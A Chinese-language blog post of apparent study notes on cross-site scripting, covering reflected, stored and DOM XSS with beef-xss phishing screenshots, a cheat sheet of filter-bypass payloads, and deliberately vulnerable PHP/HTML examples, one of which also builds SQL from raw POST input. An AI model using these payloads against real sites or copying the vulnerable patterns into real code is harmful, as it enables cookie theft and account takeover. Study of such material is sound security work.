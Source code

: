 title: XSS攻击
author: John Doe
date: 2023-05-05 14:16:35
tags:
---
# XSS的攻击方式
{% blockquote CSDN https://blog.csdn.net/m0_46201544/article/details/127578322 Go to CSDN %}
XSS-lab通关
{% endblockquote %}
## 反射型XSS：
<li>(非持久化)攻击者事先制作好攻击链接, 需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。一般是后端代码进行处理。
<li>反射型XSS的被攻击对象一般是攻击者去寻找的，就比如说：一个攻击者想盗取A的账号，那么攻击者就可以将一个含有反射型XSS的特制URL链接发送给A，然后用花言巧语诱骗A点击链接。当A不小心点进去时，就会立即受到XSS攻击。这种攻击方式需要一点骗术，所以这种攻击范围不是特别的广，并且提交漏洞时要么平台不认，要么会被认定为低危漏洞。
<li>反射型则需要服务器参与。
 
![upload successful](/images/pasted-572.png)

![upload successful](/images/pasted-566.png)
表示在前端，使用beef-xss钓鱼攻击，前端提交攻击字段

![upload successful](/images/pasted-568.png)
beef-xss成功上线

![upload successful](/images/pasted-567.png)

## 存储型XSS
<li>存储型XSS又称持久型XSS，攻击脚本将被永久地存放在目标服务器的数据库或文件中，具有很高的隐蔽性。
存储型XSS可以采用广撒网的方式，就是攻击者将存储型XSS代码写进一些有XSS漏洞的网站上，只要有用户访问这个链接就会自动中招。所以我们可以看出，存储型XSS的危害性更大，范围更广，可以不需要寻找被攻击对象，只要存储型XSS在服务器上就能实施攻击。所以提交的存储型XSS评级一般为中危漏洞。
  
![upload successful](/images/pasted-569.png)
将制作好的攻击载荷提交，提交后访问show页面

![upload successful](/images/pasted-570.png)
beef-xss成功上线，查看mysql中数据，发现攻击载荷成功写入mysql

![upload successful](/images/pasted-571.png)

## DOM型XSS
<li>DOM有一个比较大的特征，这一整个弹窗的过程，其实都是在前端完成的，这一整个过程是没有跟我们的后台交互的，数据并没有通过get、post的方式提交到后台，所以说，DOM是一个前端的操作接口
<li>这一串输入既不会在url里面，也不会在后台存储下来，刷新一下，这个东西就没了，其实在我们场景下，这个例子确实是比较鸡肋的，但是不能不说，它是个问题，只能说这个地方是出现了比较低危的dom型xss。它的原因，其实是前端的输入被dom给获取到了，也就是对dom进行了操作，然后通过dom又在前端输出了，它是不经过后台输出的
<li>DOM型与服务器没有太大的关系，不需要和服务器交互，攻击纯粹发生在客户端。
![upload successful](/images/pasted-573.png)
  
<code>"onclick='alert(1)'</code>

![upload successful](/images/pasted-574.png)

![upload successful](/images/pasted-575.png)


# Payload及绕过
{% codeblock lang:PHP %}
<sCr<scrscRiptipt>ipt>OonN\&apos;\"<>
'> value='' onmouseover='alert(/xss)'>
遇见alert直接清楚
"><img src=x onerror=aalertlert(1)>
遇见alert直接退出
"><img src=x onerror=prompt(1)》('》'需要替换成'>')
一些危险字符被删掉：script、alert、on、img
"><imimgg src=x oonnerror=alalertert(1)>

# ' onclick="alert(111)">


1.普通的
<script>alert(document.cookie)</script>
<script>alert(1)</script>
<ScRipt>alert(1)</ScRipt>
1"><ScRipt>alert(1)</ScRipt>

2.绕过htmlspecialchars方法，先闭合输入，再使用事件来绕过
onclick='alert(1)'
' onclick ='javascript:alert(1)'//    ##点击鼠标触发
" onclick ='javascript:alert(1)'//
onmouseover='alert(1)'   ##移动鼠标触发

3.<> script onclick被过滤，用a标签绕过
"></input><a href='javascript:alert(1)'>img</a>//

4.重写绕过
1"><ScscriptRipt>alert(1)</ScscriptRipt>

5.Unicode编码绕过
javascript:alert(1)

6.使用type=text来显示被隐藏的标签，再用事件
&t_sort=" type='text' onclick='javascript:alert(1)'>//

7.referer UserAgent Cookie等地方也可以进行xss测试
referer:" type='text' onclick='javascript:alert(1)'>//

8.图片

<img src=xxxx οnerrοr=alert(1)>'

9.用这些字符来测试哪些被过滤了
“ ‘ <> script onerror  onclick

10.空格用回车编码代替
<a%0D%0Aοnclick='alert(1)'>

11.ASCII编码绕过
keyword=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;

12.利用参数传递数据
" onclick='alert(1)' type="text
Referer:" onclick='alert(1)' type="text
USER_AGENT:" onclick='alert(1)' type="text
cookies:user=" onclick='alert(1)' type="text

{% endcodeblock %}

{% blockquote CSDN https://blog.csdn.net/weixin_41489908/article/details/103798622 Go to CSDN %}
XSS常见payload
{% endblockquote %}

<a href='https://www.qqxiuzi.cn/bianma/zifushiti.php'>HTML字符实体转换器</a>

# 源码分析
{% codeblock lang:PHP %}
<input name=keyword  value=""><script>alert(1)</script>
<input name=keyword  value=''onclick='alert(1)'>
<input name=keyword  value="" onclick="alert(1)">
<input name=keyword  value=""><a href="javascript:alert(1)">
{% endcodeblock %}
  
# 自己写的简单代码，存在XSS

## 反射型XSS

{% codeblock lang:1.html %}
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>反射型XSS</title>
</head>
<body>
    <form action="action.php" method="post">  <!-- <form>表示文档的服务器区域，此区域中包含一个Web站点的信息控件，用于向Web服务器区域提交 -->
        <input type="text" name="name" />
        <input type="submit" value="提交">
    </form>
</body>
</html>
{% endcodeblock %}

{% codeblock lang:action.php %}
<?php
    $name=$_POST["name"]; 
	echo $name;
?>
{% endcodeblock %}

## 存储型XSS

{% codeblock lang:2.html %}
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>存储型XSS</title>
</head>
<body>
    <form action="action2.php" method="post">
        输入你的ID：  <input type="text" name="id" /> <br/>
        输入你的Name：<input type="text" name="name" /> <br/>
        <input type="submit" value="提交">
    </form>
</body>
</html>
{% endcodeblock %}

{% codeblock lang:action2.php %}
<?php
	$id=$_POST["id"];
	$name=$_POST["name"];
	mysql_connect("localhost","root","root",3306);
	mysql_select_db("test");
	
	$sql="insert into test_0 value ($id,'$name')";
	$result=mysql_query($sql);
?>
{% endcodeblock %}

{% codeblock lang:show2.php %}
<?php
	mysql_connect("localhost","root","root");
	mysql_select_db("test");
	$sql="select * from test_0 where id=1";
	$result=mysql_query($sql);
	while($row=mysql_fetch_array($result)){
		echo $row['name'];
	}
?>
{% endcodeblock %}

## DOM型XSS
{% codeblock lang:3.html %}
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>DOM型XSS</title>
</head>
<body>
    <form action="action3.php" method="post">
        <input type="text" name="name" />
        <input type="submit" value="提交">
    </form>
</body>
</html>
{% endcodeblock %}
{% codeblock lang:action3.php %}
<?php
  $name=$_POST["name"];
?>
<input id="text" type="text" value="<?php echo $name; ?>"/>
<div id="print"></div>
<script type="text/javascript">
  var text=document.getElementById("text");
  var print=document.getElementById("print");
  print.innerHTML=text.value;  // 获取 text的值，并且输出在print内。这里是导致 xss 的主要原因。
</script>
{% endcodeblock %}